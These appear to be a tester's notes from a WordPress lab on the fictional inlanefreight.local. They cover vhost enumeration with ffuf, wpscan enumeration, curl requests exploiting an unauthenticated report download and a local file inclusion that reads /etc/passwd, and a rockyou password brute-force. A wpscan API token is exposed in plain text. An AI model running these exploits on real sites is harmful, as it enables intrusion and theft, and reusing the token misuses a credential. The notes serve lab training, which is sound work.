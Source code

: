 ___

# Vhost enum

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u 'http://inlanefreight.local' -H 'Host: FUZZ.inlanefreight.local' -fs 15189
```

```bash
whatweb blog.inlanefreight.local

WordPress[5.1.6]
```
# Wordpress

```bash
wpscan --url http://blog.inlanefreight.local --enumerate --api-token 5L1iakB9rnC4xBx5MHL1Tt42iwkbdFJsWDs3pd0ZjUY
```


WordPress theme in use: twentynineteen

Upload directory has listing enabled: http://blog.inlanefreight.local/wp-content/uploads/

Plugin(s) Identified:    
- email-subscribers

UnauthenticatedFile Download 
https://www.exploit-db.com/exploits/48698

```bash
curl 'http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all'
```

- site-editor

Local File Inclusion (LFI)
https://www.exploit-db.com/exploits/44340

```bash
curl 'http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd'
```

- the-events-calendar

User(s) Identified:  
- erika  
- admin  
- Charlie Wiggins

# Login brute force

```bash
wpscan  --url http://blog.inlanefreight.local/ -U erika --passwords /usr/share/seclists/rockyou.txt --api-token 5L1iakB9rnC4xBx5MHL1Tt42iwkbdFJsWDs3pd0ZjUY
```